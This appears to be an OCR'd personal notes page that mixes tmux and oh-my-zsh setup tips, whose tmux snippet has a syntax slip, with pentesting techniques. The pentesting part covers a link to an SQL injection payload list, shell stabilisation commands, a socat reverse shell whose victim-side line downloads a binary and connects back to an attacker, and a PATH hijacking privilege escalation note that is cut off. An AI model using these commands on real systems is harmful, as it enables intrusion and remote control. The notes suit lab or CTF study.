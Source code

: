       if [-z "$TMUX"]; then
      exec tmux
      fi
- Explanation: $TMUX vsriable prevents nested tmux instances are started on login shells. `exec` will replace current process with a new one i.e. current shell will be terminated and tmux instance with shell inside will be started, so you won't need to exit twice.

-------------------

### Adding tmux to your custom zsh shell

- Add tmux plugin to your plugins

      plugins(tmux)

- Set `ZSH_TMUX_AUTOSTART=true` in your `.zshrc`
- Note that you have to add this assignment before the line

      source $ZSH/oh-my-zsh.sh

-------------------

### 0XTIberius's sql payload

- [OxTiberius'slist](https://tib3rius.com/sqli.html)

-------------------

### Using /usr/bin/script to spawn shell

      /usr/bin/script -qc /bin/bash /dev/null
      ctrl + z
      stty raw -echo; fg; reset

---------------------

### Spawning shell with socat

- Attack Machine
  
      socat file:`tty`,raw,echo=0 tcp-listen:[port]

- Victim machine

      wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[ip]:[port]

-----------------------

### Privesc with PATH HIJACKING

- If the path to a binary is not specified in a script or binary e.g `tar instead of /usr/bin/tar`, you can set the environmental variable with `export PATH=.:$PATH` to check the current directory for our malcious binary before moving to `/usr/bin` to grab a binary.

- Our Malicious tar file should contain this if python3 is present on the victim machine
